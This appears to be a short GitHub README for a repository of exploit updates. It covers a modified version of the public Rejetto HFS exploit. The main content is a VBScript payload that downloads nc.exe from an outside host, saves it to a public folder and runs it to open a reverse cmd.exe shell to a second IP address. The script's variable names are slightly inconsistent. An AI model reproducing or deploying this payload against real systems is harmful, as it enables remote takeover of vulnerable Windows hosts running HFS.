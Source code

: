 # CanvasTools

Series of updates for exploits

## Updates
https://github.com/darkniyt/CanvasTools/wiki

### Updates to 39161.py:  https://github.com/darkniyt/CanvasTools/blob/main/39161.py
Source:  Rejetto HFS exploit:  https://www.exploit-db.com/exploits/39161
####  Includes below changes to respctive script.vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.6.26.69/nc.exe", False
xHttp.Send
with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with
Set objShell20= CreateObject("WScript.Shell")
objShell.Exec("C:\Users\Public\nc.exe -d 10.6.26.44 443 -e cmd.exe")
